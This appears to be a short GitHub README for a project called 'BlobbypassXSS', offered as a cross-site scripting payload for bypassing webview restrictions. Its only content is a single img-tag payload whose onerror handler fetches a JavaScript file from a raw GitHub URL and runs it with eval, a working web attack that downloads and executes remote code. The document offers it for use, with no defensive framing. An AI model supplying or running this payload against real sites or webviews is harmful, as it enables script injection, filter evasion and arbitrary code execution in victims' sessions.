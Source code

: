 # BlobbypassXSS
## Some XSS that can be used for multiple webview bypasses
```
<img src=# onerror='fetch("https://raw.githubusercontent.com/Blobby-Boi/BlobbypassXSS/main/blobbypass.js").then(r=>r.text()).then(c=>eval(c)) '>
```
